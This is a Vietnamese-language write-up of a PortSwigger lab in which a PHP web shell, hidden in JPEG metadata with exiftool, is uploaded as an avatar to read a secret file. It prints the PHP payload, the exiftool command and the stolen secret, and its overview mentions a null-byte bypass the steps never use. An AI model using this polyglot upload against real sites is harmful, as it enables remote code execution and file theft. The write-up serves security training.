




# Write-up: Remote code execution via polyglot web shell upload

### Tổng quan
Khai thác lỗ hổng trong chức năng upload file avatar, bypass danh sách đen đuôi file bằng kỹ thuật obfuscation với ký tự null (`%00`) trong filename, upload web shell PHP, thực thi mã để đọc file `/home/carlos/secret`, và submit secret để hoàn thành lab.

### Mục tiêu
- Upload file polyglot chứa mã PHP, đọc nội dung file `/home/carlos/secret`, và submit secret.

### Công cụ sử dụng
- Burp Suite Community
- Firefox Browser
- Exiftool

### Quy trình khai thác 
1. **Thu thập thông tin (Reconnaissance)**
- Đăng nhập với tài khoản `wiener`:`peter`
- Truy cập chức năng upload avatar, upload file ảnh hợp lệ (ví dụ: avatar.png):
    - Xem ảnh tại `/files/avatars/avatar.png`:

- Thử upload file web shell exploit.php với nội dung:
    ```
    <?php echo file_get_contents('/home/carlos/secret'); ?>
    ```
    - **Phản hồi**: Server từ chối với thông báo file không phải nội dung hình ảnh:
        

2. **Khai thác (Exploitation)**
- Sử dụng `exiftool` để tạo file polyglot, nhúng mã PHP vào metadata của file ảnh:
    ```
    exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" avatar.jpg -o polyglot.php
    ```
- Upload file `polyglot.php`:
    - **Phản hồi**: File được upload thành công
        
    - **Giải thích**: File `polyglot.php` có định dạng ảnh hợp lệ nhưng chứa mã PHP trong metadata, bypass kiểm tra nội dung hình ảnh.

- Truy cập file web shell:
    - Phản hồi trả về nội dung file `/home/carlos/secret`:
        `STARTOPpmU1RReHcYJMmjXQftvZsG9LFudaimEND`
        
    - **Giải thích**: Server thực thi file `polyglot.php` như PHP, cho phép mã trong metadata chạy, dẫn đến lỗ hổng thực thi mã từ xa (RCE).

- Submit secret và hoàn thành lab
    

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng upload file bằng kỹ thuật polyglot, nhúng mã PHP vào metadata của ảnh.
- Nhận thức tầm quan trọng của việc kiểm tra nội dung file upload kỹ lưỡng và ngăn chặn thực thi mã trong file ảnh.

### Tài liệu tham khảo
- PortSwigger: File upload vulnerabilities

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác lỗ hổng upload file, sử dụng exiftool để tạo file polyglot, bypass kiểm tra nội dung hình ảnh, thực thi web shell PHP và đọc file bí mật. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 7/2025.*